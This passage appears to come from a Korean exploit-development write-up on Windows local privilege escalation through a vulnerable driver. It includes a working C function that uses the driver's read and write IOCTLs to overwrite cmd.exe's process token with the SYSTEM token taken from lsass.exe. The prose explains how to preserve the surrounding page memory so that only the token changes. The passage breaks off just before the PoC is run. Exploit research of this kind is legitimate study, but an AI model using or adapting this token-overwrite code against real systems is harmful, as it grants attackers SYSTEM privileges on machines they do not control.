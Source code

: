 이제 이전 파트에서 테스트한 것 처럼 `lsass.exe`의 `Token`값을 `cmd.exe`의 `Token` 필드에 overwrite하면 `cmd.exe`의 권한을 `NT AUTORITY\SYSTEM`으로 바꿔 권한 상승을 트리거할 수 있습니다.

```c
void overwrite_token(HANDLE dHandle) {
    DWORD modulus = cmd_token_addr % 0x1000;
    INT64 cmd_page = cmd_token_addr - modulus;
    DWORD bytes_ret = 0x0;
    DWORD read_num_bytes = modulus;
    PBYTE output_buff = (PBYTE)VirtualAlloc(NULL, modulus + 0xc, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    READ_INPUT_BUFFER input_buff = { cmd_page, read_num_bytes };

    DeviceIoControl(dHandle, READ_IOCTL, &input_buff, 0x40, output_buff, modulus + 0xc, &bytes_ret, NULL);

    PBYTE results = (PBYTE)((INT64)output_buff + 0xc);
    PBYTE cmd_page_buff = (PBYTE)VirtualAlloc(NULL, modulus + 0x8, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    DWORD num_of_bytes = modulus + 0x8;
		
		// page pool ~ before token
    memcpy(cmd_page_buff, results, modulus);
		// new token value 
    memcpy(cmd_page_buff + modulus, (void*)&system_token_value, 0x8);

    BYTE input_buff2[0x1000] = { 0, };
    memcpy(input_buff2, (void*)cmd_page, 0x8);
    memcpy(input_buff2 + 0x8, (void*)&num_of_bytes, 0x4);
    memcpy(input_buff2 + 0xc, cmd_page_buff, modulus + 0x8);

    DeviceIoControl(dHandle, WRITE_IOCTL, input_buff2, modulus + 0x8 + 0xc, NULL, 0, &bytes_ret, NULL);

}
```

이때 한 가지 문제점이 발생하는데, Page 단위로 매핑하기 때문에 memory write의 경우 정확히 Token 값 8 bytes만 overwrite할 수 없다는 문제가 있습니다.

해결법은 간단합니다! Page pool의 시작부터 `Token` 주소 전까지의 메모리값들을 `READ_IOCTL`로 모두 가져와 버퍼에 저장한 뒤, 해당 버퍼에 overwrite할 토큰값만 추가한 버퍼를 `WRITE_IOCTL 0x81112F0C`을 통해 input으로 전달하면 Page pool 시작주소부터 `Token` 주소 전까지는 exploit 전과 동일한 값이 유지되고 토큰값만 변경할 수 있습니다.

<br>

이제 cmd를 실행하고 빌드한 PoC를 실행하면..
